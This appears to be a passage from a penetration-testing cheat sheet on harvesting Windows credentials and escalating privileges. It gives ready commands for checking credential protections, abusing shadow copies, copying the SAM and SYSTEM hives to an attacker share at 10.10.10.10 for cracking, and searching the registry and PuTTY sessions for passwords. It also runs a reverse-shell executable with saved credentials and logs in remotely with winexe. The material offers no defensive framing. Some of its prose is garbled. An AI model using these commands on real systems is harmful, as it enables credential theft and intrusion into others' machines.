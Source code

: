 ```powershell
reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential 
# Windows > 8.1 LSA protection for the LSA to prevent untrusted processes from being able to read its memory or to inject code
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA /v RunAsPPL
# Windows 10 Credential Guard
reg query HKLM\System\CurrentControlSet\Control\LSA /v LsaCfgFlags
# Cached Domain Credentials
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\WINLOGON" /v CACHEDLOGONSCOUNT
```

#### Volume Shadow Copy Service
If you have local administrator access on a machine try to list shadow copies, it's an easy way for Privilege Escalation.
```powershell
# List shadow copies using vssadmin (Needs Admnistrator Access)
vssadmin list shadows
  
# List shadow copies using diskshadow
diskshadow list shadows all
  
# Make a symlink to the shadow copy and access it
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```

#### Backup SAM and SYSTEM files

[[Impacket-Cheatsheet]] - `secretsdump`
```powershell
icacls C:\Windows\Repair
copy C:\Windows\Repair\SAM \\10.10.10.10\kali\ # These can often be transfered and cracked
copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\
```

#### Passwords in the registry
```powershell
reg query HKLM /f password /t REG_SZ /s
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon" # For admin autologons!
winexe -U 'admin%password' //MACHINE_IP cmd.exe # Kali winexe
```
PuTTy is an SSH client commonly found on Windows systems users can store session to retrieve the store d proxy credentials from proxcy configurations that are in plaintext 
```powershell
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "ProxyPassword" /s
```

#### Saved Credentials:
```powershell
cmdkey /list                                    list saved credentials
runas /savecred /user:admin reverse_shell.exe   query /savedcred
vaultcmd /list
# Web credentials, Windows credentials, Generic credentials. Certificate-based credentials
vaultcmd /listproperties:"$category" 
# Will display the number, location in AppData and protection method
vaultcmd /listcreds:"$category" # information about stored credentials
```
